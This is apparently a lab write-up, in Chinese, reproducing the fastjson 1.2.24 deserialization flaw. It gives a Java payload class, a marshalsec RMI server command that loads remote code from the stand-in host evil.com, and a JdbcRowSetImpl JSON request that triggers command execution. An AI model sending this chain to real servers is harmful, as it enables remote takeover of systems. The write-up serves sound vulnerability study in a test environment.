 # fastjson 1.2.24 反序列化导致任意命令执行漏洞

fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：

- https://www.freebuf.com/vuls/208339.html
- http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/

## 漏洞环境

运行测试环境：

```
docker-compose up -d
```

环境运行后，访问`http://your-ip:8080`即可看到JSON格式的输出。

我们向这个地址POST一个JSON对象，即可更新服务端的信息：

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```

## 漏洞复现

因为目标环境是Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以使用`com.sun.rowset.JdbcRowSetImpl`的利用链，借助JNDI注入来执行命令。

首先编译并上传命令执行代码，如`http://evil.com/TouchFile.class`：

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```

向靶场服务器发送Payload，带上RMI的地址：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

可见，命令`touch /tmp/success`已成功执行：

![](1.png)
